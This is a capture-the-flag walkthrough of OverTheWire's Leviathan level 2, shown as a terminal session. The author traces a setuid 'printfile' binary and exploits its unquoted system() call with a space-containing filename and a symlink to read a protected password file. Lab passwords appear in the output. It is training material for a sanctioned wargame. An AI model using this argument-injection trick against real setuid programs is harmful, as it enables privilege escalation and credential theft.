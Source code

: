 # Leviathan2

## LEVEL GOAL

There is no information for this level, intentionally.

## SOLUTION

`nikhilh@ubuntu:~$ ssh -p 2223 leviathan2@leviathan.labs.overthewire.org`

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames
leviathan2@leviathan.labs.overthewire.org's password: 
Linux leviathan 4.16.7 #2 SMP Thu May 10 14:46:45 CEST 2018 x86_64
...
...

`leviathan2@leviathan:~$ ls`

`printfile`

`leviathan2@leviathan:~$ ./printfile`

`*** File Printer ***`

`Usage: ./printfile filename`

`leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan2`

`/bin/cat: /etc/leviathan_pass/leviathan2: Permission denied`

`leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3`

`You cant have that file...`

`leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2`

`__libc_start_main(0x565556c0, 2, 0xffffd714, 0x565557b0 <unfinished ...>`

`access("/etc/leviathan_pass/leviathan2", 4)                                                                                   = 0`

`snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                         = 39`

`geteuid()                                                                                                                     = 12002`

`geteuid()                                                                                                                     = 12002`

`setreuid(12002, 12002)                                                                                                        = 0`

`system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta`

` <no return ...>`

`--- SIGCHLD (Child exited) ---`

`<... system resumed> )                                                                                                        = 0`

`+++ exited (status 0) +++`

`leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3`

`__libc_start_main(0x565556c0, 2, 0xffffd714, 0x565557b0 <unfinished ...>`

`access("/etc/leviathan_pass/leviathan3", 4)                                                                                   = -1`

`puts("You cant have that file..."You cant have that file...`

`)                                                                                            = 27`

`+++ exited (status 1) +++`

`leviathan2@leviathan:~$ cd /tmp`

`leviathan2@leviathan:/tmp$ mkdir levi2`

`leviathan2@leviathan:/tmp$ cd levi2`

`leviathan2@leviathan:/tmp/levi2$ touch file\ name`

`leviathan2@leviathan:/tmp/levi2$ ls`

`file name`

`leviathan2@leviathan:/tmp/levi2$ ltrace /home/leviathan2/printfile file\ name`

`__libc_start_main(0x565556c0, 2, 0xffffd704, 0x565557b0 <unfinished ...>`

`access("file name", 4)                                                                                                        = 0`

`snprintf("/bin/cat file name", 511, "/bin/cat %s", "file name")                                                               = 18`

`geteuid()                                                                                                                     = 12002`

`geteuid()                                                                                                                     = 12002`

`setreuid(12002, 12002)                                                                                                        = 0`

`system("/bin/cat file name"/bin/cat: file: No such file or directory`

`/bin/cat: name: No such file or directory`

` <no return ...>`

`--- SIGCHLD (Child exited) ---`

`<... system resumed> )                                                                                                        = 256`

`+++ exited (status 0) +++`

`leviathan2@leviathan:/tmp/levi2$ ln -s /etc/leviathan_pass/leviathan3 name`

`leviathan2@leviathan:/tmp/levi2$ ls`

`file name  name`

`leviathan2@leviathan:/tmp/levi2$ /home/leviathan2/printfile file\ name`

`/bin/cat: file: No such file or directory`

`Ahdiemoo1j`
